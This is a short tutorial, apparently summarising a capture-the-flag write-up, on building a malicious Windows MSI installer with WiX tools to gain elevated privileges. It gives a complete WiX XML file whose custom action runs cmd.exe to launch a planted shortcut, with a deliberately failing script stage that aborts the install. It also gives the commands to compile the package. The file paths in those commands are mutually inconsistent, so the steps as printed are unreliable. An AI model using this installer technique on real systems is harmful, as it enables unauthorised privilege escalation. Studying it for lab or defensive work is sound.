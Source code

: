 





# Creating Malicious MSI and Getting Root

The creation of the MSI installer will be done using wixtools, specifically [wixtools](http://wixtoolset.org) will be utilized. It is worth mentioning that alternative MSI builders were attempted, but they were not successful in this particular case.

For a comprehensive understanding of wix MSI usage examples, it is advisable to consult [this page](https://www.codeproject.com/Tips/105638/A-quick-introduction-Create-an-MSI-installer-with). Here, you can find various examples that demonstrate the usage of wix MSI.

The aim is to generate an MSI that will execute the lnk file. In order to achieve this, the following XML code could be employed ([xml from here](https://0xrick.github.io/hack-the-box/ethereal/#Creating-Malicious-msi-and-getting-root)):

```markup
<?xml version="1.0"?>
<Wix xmlns="http://schemas.microsoft.com/wix/2006/wi">
<Product Id="*" UpgradeCode="12345678-1234-1234-1234-111111111111" Name="Example Product Name"
Version="0.0.1" Manufacturer="@_xpn_" Language="1033">
<Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package"/>
<Media Id="1" Cabinet="product.cab" EmbedCab="yes"/>
<Directory Id="TARGETDIR" Name="SourceDir">
<Directory Id="ProgramFilesFolder">
<Directory Id="INSTALLLOCATION" Name="Example">
<Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222">
</Component>
</Directory>
</Directory>
</Directory>
<Feature Id="DefaultFeature" Level="1">
<ComponentRef Id="ApplicationFiles"/>
</Feature>
<Property Id="cmdline">cmd.exe /C "c:\users\public\desktop\shortcuts\rick.lnk"</Property>
<CustomAction Id="Stage1" Execute="deferred" Directory="TARGETDIR" ExeCommand='[cmdline]' Return="ignore"
Impersonate="yes"/>
<CustomAction Id="Stage2" Execute="deferred" Script="vbscript" Return="check">
fail_here
</CustomAction>
<InstallExecuteSequence>
<Custom Action="Stage1" After="InstallInitialize"></Custom>
<Custom Action="Stage2" Before="InstallFiles"></Custom>
</InstallExecuteSequence>
</Product>
</Wix>
```

It is important to note that the Package element contains attributes such as InstallerVersion and Compressed, specifying the version of the installer and indicating whether the package is compressed or not, respectively.

The creation process involves utilizing candle.exe, a tool from wixtools, to generate a wixobject from msi.xml. The following command should be executed:

```
candle.exe -out C:\tem\wix C:\tmp\Ethereal\msi.xml
```

Additionally, it is worth mentioning that an image is provided in the post, which depicts the command and its output. You can refer to it for visual guidance.

Furthermore, light.exe, another tool from wixtools, will be employed to create the MSI file from the wixobject. The command to be executed is as follows:

```
light.exe -out C:\tm\Ethereal\rick.msi C:\tmp\wix
```

Similar to the previous command, an image is included in the post illustrating the command and its output.

Please note that while this summary aims to provide valuable information, it is recommended to refer to the original post for more comprehensive details and accurate instructions.

## References
* [https://0xrick.github.io/hack-the-box/ethereal/#Creating-Malicious-msi-and-getting-root](https://0xrick.github.io/hack-the-box/ethereal/#Creating-Malicious-msi-and-getting-root)
* [https://www.codeproject.com/Tips/105638/A-quick-introduction-Create-an-MSI-installer-with](https://www.codeproject.com/Tips/105638/A-quick-introduction-Create-an-MSI-installer-with)
[wixtools](http://wixtoolset.org)







